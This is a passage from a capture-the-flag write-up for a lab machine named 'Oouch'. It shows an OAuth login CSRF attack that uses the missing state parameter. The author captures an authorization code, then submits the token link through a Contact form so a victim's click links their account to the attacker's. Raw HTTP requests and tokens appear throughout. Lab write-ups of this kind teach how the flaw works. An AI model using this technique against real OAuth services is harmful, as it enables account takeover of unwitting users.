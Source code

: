 In the request a client ID can be found:
```
client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82
response_type=code
redirect_uri=http://consumer.oouch.htb:5000/oauth/connect/token&scope=read
```

This POST request has data in the URL and sends data. Some of it is doubled, but there is one parameter that is empty:
```
POST /oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/connect/token&scope=read HTTP/1.1
Host: authorization.oouch.htb:8000
(...)

csrfmiddlewaretoken=5fQg4ZHpc9ux5gaveSgl1ZddvWCheaaUz2dBbeHcncT6nSjUzum2bQL56WCr5D3O&redirect_uri=http%3A%2F%2Fconsumer.oouch.htb%3A5000%2Foauth%2Fconnect%2Ftoken&scope=read&client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&state=&response_type=code&allow=Authorize
```

The parameter _state_ is empty, which is a vulnerability that allows to use a token for something else that it is not.
After authorizing, it forwards to _/profile_ and shows that there is now an entry on _Connected-Accounts_.

By repeating the workflow and authorizing again by clicking the link, it will show us the token in the GET request:
```
GET /oauth/connect/token?code=0YbvZ56PVc90ZMFVyORRMn0TQw6sfV
Host: consumer.oouch.htb:5000
```

Because there is no _state_, if any other user accesses this path, it will be possible to get access to their account.
We can now abuse the _Contact_ form as seen before so the link to this token gets clicked and grants us access to the user that clicked:
```
textfield=http://consumer.oouch.htb:5000/oauth/connect/token?code=0YbvZ56PVc90ZMFVyORRMn0TQw6sfV
```

![Sending Authorization request](oouch_web-7.png)

After a while the link gets clicked and the _Profile_ shows that no accounts are connected.
When authorizing to the account again at _consumer.oouch.htb:5000/oauth/login_ and browse to the _Profile_, it will be the account of the user that clicked the link that we sent:
